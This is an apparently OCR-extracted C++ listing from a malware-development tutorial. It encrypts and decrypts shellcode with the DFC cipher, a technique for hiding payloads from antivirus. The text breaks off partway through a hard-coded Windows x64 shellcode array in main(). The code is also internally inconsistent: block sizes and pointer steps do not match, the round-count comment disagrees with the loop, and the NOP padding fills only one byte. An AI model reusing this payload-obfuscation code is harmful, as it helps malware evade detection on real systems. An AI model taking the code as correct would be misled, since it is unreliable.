 ```cpp
// DFC decryption function
void dfc_decrypt(uint32_t* block, uint8_t* key) {
  uint32_t left = block[0], right = block[1];

  // perform 8 rounds of decryption in reverse
  for (int i = ROUNDS - 1; i >= 0; i--) {
    G(&left, &right, K[i]);
  }

  // final left-right swap
  block[0] = right;
  block[1] = left;
}

// function to encrypt shellcode using DFC
void dfc_encrypt_shellcode(unsigned char* shellcode, int shellcode_len, 
uint8_t* key) {
  key_schedule(key);  // generate subkeys
  int i;
  uint32_t* ptr = (uint32_t*)shellcode;
  for (i = 0; i < shellcode_len / BLOCK_SIZE; i++) {
    dfc_encrypt(ptr, key);
    ptr += 4;  // move to the next 128-bit block (4 * 32-bit words)
  }
  // handle remaining bytes by padding with 0x90 (NOP)
  int remaining = shellcode_len % BLOCK_SIZE;
  if (remaining != 0) {
    unsigned char pad[BLOCK_SIZE] = { 0x90 };
    memcpy(pad, ptr, remaining);
    dfc_encrypt((uint32_t*)pad, key);
    memcpy(ptr, pad, remaining);
  }
}

// function to decrypt shellcode using DFC
void dfc_decrypt_shellcode(unsigned char* shellcode, int shellcode_len, 
uint8_t* key) {
  key_schedule(key);  // generate subkeys
  int i;
  uint32_t* ptr = (uint32_t*)shellcode;
  for (i = 0; i < shellcode_len / BLOCK_SIZE; i++) {
    dfc_decrypt(ptr, key);
    ptr += 4;
  }
  // handle remaining bytes by padding
  int remaining = shellcode_len % BLOCK_SIZE;
  if (remaining != 0) {
    unsigned char pad[BLOCK_SIZE] = { 0x90 };
    memcpy(pad, ptr, remaining);
    dfc_decrypt((uint32_t*)pad, key);
    memcpy(ptr, pad, remaining);
  }
}

int main() {
  unsigned char my_payload[] = 
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
```